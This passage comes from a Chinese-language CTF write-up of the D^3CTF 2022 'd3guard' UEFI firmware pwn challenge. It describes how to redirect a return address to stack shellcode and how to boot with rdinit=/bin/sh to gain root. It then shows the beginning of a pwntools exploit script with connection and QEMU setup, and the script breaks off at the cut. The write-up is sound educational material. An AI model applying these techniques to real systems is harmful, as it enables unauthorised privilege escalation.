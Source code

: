 但是实际编写脚本时发现泄露出的程序地址与跳转的目标地址偏移不是很稳定（但是概率很大），于是覆盖d3guard返回地址为一个栈上shellcode的地址（栈上没开NX防护），shellcode可以在输入Admin pass key时提前部署。借助shellcode以及寄存器中的镜像地址，可以计算出稳定的跳转目标地址。

成功进入Ui交互界面后，只需要通过操作菜单添加一个新的启动项，并将参数`rdinit`设置为`/bin/sh`然后通过其进入操作系统，即可获得root权限。

```assembly
#!/usr/bin/python3
# ************************************************ #
# AntCTF x D^3CTF 2022                             #
# Type: Pwnable                                    #
# Chall: d3guard                                   #
# Author: Eqqie (https://github.com/yikesoftware/) #
# ************************************************ #
from pwn import *
import os
import sys
import random

context.arch = "amd64"
remote_addr = ("1-lb-pwn-challenge-cluster.d3ctf.io", 32659)
test_token = b"Sdtwx24ticC608cDjeeK35700MgHXh5D"

if len(sys.argv) != 2:
    print("python3 exp.py <remote-socat|remote-debug|remote-nodebug|local-socat|local-nodebug|local-debug>")
    sys.exit(0)
mode = sys.argv[1]
# remote
if mode == "remote-socat":
    os.system("clear")
    os.system(
        f"socat $(tty),echo=0,escape=0x03 SYSTEM:\"python3 {__file__} remote-nodebug\" 2>&1")
    sys.exit(0)
elif mode == "remote-debug":
    context.log_level = "debug"
    do_proof = True
    p = remote(remote_addr[0], remote_addr[1])
elif mode == "remote-nodebug":
    do_proof = True
    p = remote(remote_addr[0], remote_addr[1])
# lcoal
elif mode == "local-socat":
    os.system("cp OVMF.fd.bak OVMF.fd")
    os.system(
        f"socat $(tty),echo=0,escape=0x03 SYSTEM:\"python3 {__file__} local-nodebug\" 2>&1")
elif mode == "local-debug":
    do_proof = False
    os.system("cp OVMF.fd.bak OVMF.fd")
    p = process([
        "qemu-system-x86_64",
        "-s",
        "-m", f"{256+random.randint(0, 512)}",
        "-drive", "if=pflash,format=raw,file=OVMF.fd",
        "-drive", "file=fat:rw:contents,format=raw",
        "-net", "none",
        "-nographic"
    ])
elif mode == "local-nodebug":
    do_proof = False
    os.system("cp OVMF.fd.bak OVMF.fd")
    p = process([
        "qemu-system-x86_64",
        "-m", f"{256+random.randint(0, 512)}",
        "-drive", "if=pflash,format=raw,file=OVMF.fd",
        "-drive", "file=fat:rw:contents,format=raw",
```